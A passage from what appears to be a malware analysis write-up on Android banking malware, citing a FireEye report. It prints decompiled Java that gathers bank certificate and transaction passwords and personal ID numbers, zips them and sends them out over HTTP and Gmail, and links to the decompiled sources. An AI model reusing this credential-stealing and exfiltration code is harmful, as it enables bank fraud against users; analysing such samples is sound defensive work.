>sb.append("certPsw:" + bank.getCertPsw());
>sb.append(" ****  ");
>sb.append("personIdFirst:" + bank.getPersonIdFirst());
>sb.append(" ****  ");
>sb.append("personIdSecond:" + bank.getPersonIdSecond());
>sb.append(" ****  ");
>sb.append("transPsw:" + bank.getTransPsw());
>long l = System.currentTimeMillis();
>file = (bank.getBkType() + "_" + l);
>url.write(file + ".txt", sb.toString());
>try{
>	ZipUtil.ZipFolder(url.getSDPath() + "/" + file + ".txt", url.getSDPath() + "/" + file + ".zip");
>	File zip = new File(url.getSDPath() + "/" + file + ".zip");
>	Tool.postHttpFile1(getApplicationContext(), zip, file);
>	GMailSend.MailSend(tel, sb.toString(), file + ".zip", urlgetSDPath());
>	localMessage.what = 201;
>	KB_Card_Psw.this.handler.sendMessage(localMessage);
>}
>catch (Exception localException){
>	localException.printStackTrace();
>}
> ```

Download decompiled sources: [dec_sources.zip](dec_sources.zip)

## References
The report of FireEye about this malware https://www.fireeye.com/blog/threat-research/2014/06/what-are-you-doing-dsencrypt-malware.html
